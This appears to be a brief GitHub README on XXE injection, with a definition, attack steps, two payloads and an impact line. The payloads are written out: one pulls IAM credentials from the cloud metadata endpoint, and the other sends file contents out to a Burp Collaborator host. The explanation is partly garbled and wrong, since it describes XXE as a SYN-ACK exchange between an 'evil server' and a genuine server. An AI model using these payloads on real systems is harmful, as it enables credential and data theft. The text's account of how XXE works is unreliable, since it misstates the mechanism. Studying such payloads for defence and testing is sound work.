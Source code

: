 # XXE injection. 
# What is XXE injection? 
XXE injection also known as XML external entity injection. IT is a type of back end web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access. IT works on SYN-ACK type of communication between evil sever and genuine server. It is more applicable in IoT and also known  as one of IoT attacks. XXE injection attack can be escalated by compormising server by using SSRF (server side request forgery).  
![XXE_600x315](https://user-images.githubusercontent.com/115407638/204035060-03d35c3f-eff2-48fb-8fd3-e61cc5bf77c0.png) 

# Steps to perform XXE injection. 
1) Client sends requests to the server XXE data. 
2) Server sends SYN-ACK sommand to evil server. 
3) XXE payload is injected and sent to the genuine server that asks for c:/windows/win.ini 
4) XXE vulnerablity of attacker is exploited. 

# Payloads Used 
1)  DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]
2)  ENTITY % eval "<!ENTITY &#x25; test SYSTEM 'http://burp-collaborator/?a=%file;'>" %eval %test 


# Impact 
XXE injection vulnerablity basically works on data in use and transit data. It can cause the loss of sensitive info of an organisation or an individual. 
